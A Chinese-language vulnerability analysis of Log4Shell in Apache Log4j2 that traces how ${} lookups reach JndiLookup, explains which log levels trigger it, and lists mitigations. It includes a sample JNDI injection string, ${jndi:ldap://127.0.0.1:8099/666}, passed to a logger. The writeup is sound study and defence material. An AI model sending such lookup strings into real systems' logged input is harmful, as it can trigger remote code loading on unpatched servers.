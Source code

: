 # 0x01 What Is Log4j2

Apache log4j2是一款用于 Java 日志记录的工具。日志记录主要用来监视代码中变量的变化情况，周期性地记录到文件中供其他应用进行统计分析工作；跟踪代码运行时轨迹，作为日后审计的依据；担当集成开发环境中的调试器的作用，向文件或控制台打印代码的调试信息。其在JAVA生态环境中应用极其广泛,影响巨大。

经典漏洞，来复现一波

漏洞的触发点在于利用`org.apache.logging.log4j.Logger`进行`log`或`error`等记录操作时未对日志message信息进行有效检查,从而导致漏洞发生。

影响版本：`2.0 <= Apache log4j2 <= 2.14.1`

# 0x02 Basic Usage

To use Log4j 2 in your application make sure that both the API and Core jars are in the application's classpath. Add the dependencies listed below to your classpath.

> log4j-api.jar
>
> log4j-core.jar

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
```

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4Vul {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        String food = "taco";
        logger.error("{} is not served", food);
        // 12:17:56.859 [main] ERROR Log4Vul - taco is not served
    }
}
```

`{}`起到占位符的作用，被替换为传入的参数

`log4j`提供了一些`lookup`功能，可以快速打印环境变量、java版本信息、日志事件、运行容器信息等内容

如`logger.error("Java version :{}","${java:version}");`将打印java版本

具体可以查看[官方文档]([Log4j – Log4j 2 Lookups (apache.org)](https://logging.apache.org/log4j/2.x/manual/lookups.html))

可以看到有敏感的`JndiLookup `，通过jndi来获取变量值

在`log4j.core.lookup`可以找到这个类

```java
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        return Objects.toString(jndiManager.lookup(jndiName), null);
    } // ....
}
```

`jndiManager#lookup`有熟悉的`this.context.lookup(name);`，`context`默认为`InitialContext`

接着看看`log4j`是怎么处理我们传入的message并转化为jndi的

`MessagePatternConverter#format`

* 判断是否设置`noLookups`（后面讲防御就是把这个参数设为true）
* 判断是否有`${`
* 传入`StrSubstitutor`进行`replace`

![image-20230322125131273](../.gitbook/assets/image-20230322125131273.png)

把`${xxx}`中间的内容提取出来，传入`resolveVariable`处理，在`Interpolator#lookup`，把第一个`:`前的内容提取出来，这里就是`jndi`，在`strLookupMap`找到对应的`Lookup`类，即找到`JndiLookup`类，用这个类去`lookup`后面的部分

![image-20230322130144431](../.gitbook/assets/image-20230322130144431.png)

上面是使用`logger.error()`触发的，日志等级默认200。

一般情况下，如`logger.log(Level.INFO, "${jndi:ldap://127.0.0.1:8099/666}");`

会经过`logIfEnabled()`的判断

![image-20230322132815918](../.gitbook/assets/image-20230322132815918.png)

如果日志等级的值没有小于200（值越小等级越高），就不会进入`logMessage`来打印消息

![image-20230322132632186](../.gitbook/assets/image-20230322132632186.png)

所以只有`OFF(0)、FATAL(100)、ERROR(200)`才能利用

代码中日志等级的优先级≥默认级别才可以成功，比如Struts2的默认日志等级为Info(400)，WARN(300)、ERROR、FATAL、OFF、INFO这几个级别的日志都可能被利用



# 0x03 Defend

* 升级到`2.17.0`版本以上
* 设置`jvm`参数：`-Dlog4j2.formatMsgNoLookups=true`
* 设置环境变量：`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true`



# 0x04 Reference

* [Log4j漏洞详解 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/327379.html)
* [Apache Log4j2 远程代码执行漏洞分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/262668)
* [Apache Log4j2 Jndi RCE 高危漏洞分析与防御 (seebug.org)](https://paper.seebug.org/1787/)